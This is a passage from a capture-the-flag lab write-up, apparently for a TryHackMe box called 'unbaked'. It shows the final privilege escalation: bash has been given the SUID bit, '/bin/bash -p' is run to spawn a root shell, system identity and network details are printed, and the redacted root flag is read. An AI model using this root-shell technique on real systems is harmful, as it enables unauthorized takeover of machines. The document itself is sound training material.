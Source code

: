 ```shell
oliver@unbaked:/dev/shm$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1014K Jul 13  2019 /bin/bash
```

**NIce! Our payload worked! Let's spawn a root Bash shell:**
```shell
oliver@unbaked:/dev/shm$ /bin/bash -p
bash-4.3# whoami;hostname;id;ip a
root
unbaked
uid=1002(oliver) gid=1002(oliver) euid=0(root) egid=0(root) groups=0(root),1002(oliver),1003(sysadmin)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:9d:2a:2d:05:b3 brd ff:ff:ff:ff:ff:ff
    inet 10.10.49.15/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::9d:2aff:fe2d:5b3/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:40:ad:94:49 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:40ff:fead:9449/64 scope link 
       valid_lft forever preferred_lft forever
5: vethce88f61@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether ce:10:16:87:86:01 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::cc10:16ff:fe87:8601/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**root.txt:**
```shell
bash-4.3# cat /root/root.txt
CONGRATS ON PWNING THIS BOX!
Created by ch4rm & H0j3n
ps: dont be mad us, we hope you learn something new

flag: THM{Redacted}
```
